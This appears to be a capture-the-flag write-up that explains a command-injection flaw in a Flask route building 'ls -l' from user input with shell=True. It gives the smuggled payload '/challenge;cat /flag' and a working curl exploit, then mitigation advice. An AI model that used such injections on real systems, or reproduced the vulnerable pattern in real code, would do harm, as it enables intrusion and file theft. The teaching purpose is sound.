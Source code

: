 # 🧨 Web Security Challenge: Command Injection Level 1

## 🔎 Challenge Overview

This level explores **Command Injection**, a dangerous vulnerability that arises when a web application constructs a command string by embedding untrusted user input, then executes it in a shell environment.

The server code is written in Python using Flask, and it includes a route `/mission` that takes a query parameter `basepath` and builds a shell command using string interpolation:

```python
@app.route("/mission", methods=["GET"])
def challenge():
    arg = flask.request.args.get("basepath", "/challenge")
    command = f"ls -l {arg}"

    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout
    ...
```

The key vulnerability is the use of:
- `shell=True` (enables shell parsing of input)
- Direct string formatting with user input (`f"ls -l {arg}"`)

This allows attackers to inject arbitrary shell commands.

---

## 🕳️ Vulnerability Explanation

The code intends to execute `ls -l` on a user-supplied path like `/home/user`, but does not sanitize or validate the input. If a user supplies a string like:

```
/challenge; cat /flag
```

The full shell command becomes:

```bash
ls -l /challenge; cat /flag
```

In Bash, `;` separates commands. So both `ls` and `cat` get executed sequentially. The second command (`cat /flag`) prints the contents of the flag file.

---

## 🧪 Exploit

The injected payload is:
```
/challenge;cat /flag
```

To safely send this in a browser or `curl`, we URL-encode it:
```
/challenge%3Bcat%20/flag
```

### ✅ Final Working Exploit:

```bash
curl "http://challenge.localhost/mission?basepath=/challenge%3Bcat%20/flag"
```

This triggers the following command on the server:
```bash
ls -l /challenge; cat /flag
```

And leaks the flag from `/flag`.

---

## 🛡️ Mitigation

To prevent command injection vulnerabilities:

1. **Avoid `shell=True`** — use the safer list format:
   ```python
   subprocess.run(["ls", "-l", user_input])
   ```
2. **Validate and sanitize input** — enforce strict whitelisting or use built-in APIs.
3. **Use parameterized interfaces** — avoid building strings manually.
4. **Never trust user input** — treat everything as malicious unless proven safe.

---

## 📚 Key Takeaways

- `shell=True` combined with unsanitized input is extremely dangerous.
- Command separators like `;`, `&&`, and `|` can be used for code injection.
- Always assume user input is hostile — even seemingly harmless parameters.

---
